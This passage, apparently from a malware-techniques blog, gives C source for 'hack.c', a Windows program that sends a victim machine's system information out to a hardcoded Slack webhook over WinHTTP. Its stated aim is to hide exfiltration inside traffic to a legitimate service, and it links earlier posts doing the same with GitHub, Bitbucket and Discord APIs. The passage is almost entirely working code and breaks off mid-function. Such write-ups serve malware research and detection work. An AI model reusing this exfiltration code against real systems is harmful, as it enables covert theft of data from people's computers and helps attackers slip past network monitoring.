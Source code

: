 it's similar to my previous scenarios with [Github API](/malware/2025/01/19/malware-tricks-44.html), [Bitbucket API](/malware/2025/08/28/malware-tricks-51.html) or [Discord Bot API](/malware/2024/06/28/malware-trick-42.html).     

So, full source code is looks like this `hack.c`:     

```cpp
/*
 * hack.c
 * sending systeminfo via legit URL. Slack API
 * author @cocomelonc
 * https://cocomelonc.github.io/malware/2025/10/20/malware-tricks-52.html
 */
#include <windows.h>
#include <winhttp.h>
#include <iphlpapi.h>
#include <stdio.h>
 
// send data to Slack channel using winhttp
int sendToSlack(char* message) {
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"hooks.slack.com", INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
    return 1;
  }

  // char headers[] = "Content-Type: application/json";
  HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"POST", L"/services/T05LNF51FAM/B09M7L8BQ91/GQtnKW33OKeQzTZbkZvustAu", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
  if (hRequest == NULL) {
    fprintf(stderr, "WinHttpOpenRequest. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }

  if (!WinHttpSendRequest(hRequest, L"Content-Type: application/json", -1, message, strlen(message), strlen(message), 0)) {
    fprintf(stderr, "WinHttpSendRequest. error %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }
   
  if (!WinHttpReceiveResponse(hRequest, NULL)) {
    fprintf(stderr, "WinHttpReceiveResponse. Error %d has occurred.\n", GetLastError());
  }

  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hSession);
  printf("information sent successfully.\n");
```